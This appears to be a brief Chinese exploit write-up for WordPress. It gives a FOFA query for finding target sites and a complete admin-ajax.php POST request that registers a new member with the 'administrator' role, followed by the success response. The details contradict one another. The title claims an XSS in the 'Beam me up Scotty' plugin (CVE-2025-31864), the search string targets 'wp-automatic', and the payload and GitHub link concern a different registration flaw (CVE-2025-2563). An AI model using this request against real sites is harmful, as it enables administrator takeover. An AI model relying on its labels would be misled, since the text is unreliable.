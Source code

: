 ## WordPress Beam me up Scotty Plugin存在xss漏洞(CVE-2025-31864)

## fofa
```
"/wp-content/plugins/wp-automatic"
```
## 第一步
通过 /registration 或 /membership-registration 前端页面注册
## 第二步，注册后，使用该请求数据
```
POST /wp-admin/admin-ajax.php HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: */*
Host: hackthebox.test
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: multipart/form-data; boundary=--------------------------189123966817005614765335

----------------------------189123966817005614765335
Content-Disposition: form-data; name="action"

user_registration_membership_register_member
----------------------------189123966817005614765335
Content-Disposition: form-data; name="security"

THE_NONCE_HERE
----------------------------189123966817005614765335
Content-Disposition: form-data; name="members_data"

{"membership":"MEMBERSHIP_ID","payment_method":"free","start_date":"2025-3-29","username":"REGISTERED_USERNAME","role":"administrator"}
----------------------------189123966817005614765335--
```
## 第三步，返回相应包如下
```
{
    "success": true,
    "data": {
        "member_id": 24,
        "transaction_id": "",
        "message": "New member has been successfully created."
    }
}  
```
## github地址
https://github.com/ubaydev/CVE-2025-2563
